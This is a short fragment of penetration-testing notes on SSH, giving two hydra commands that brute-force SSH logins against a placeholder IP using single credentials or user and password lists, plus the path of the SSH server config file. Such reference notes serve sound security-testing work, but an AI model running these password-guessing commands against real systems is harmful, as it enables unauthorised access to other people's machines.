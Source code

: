 ## Secure Shell (SSH)

```
hydra -l <USER> -p <PASSWORD> -f <IP> ssh
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> -f <IP> ssh
```

Config File
```
/etc/ssh/sshd_config
```
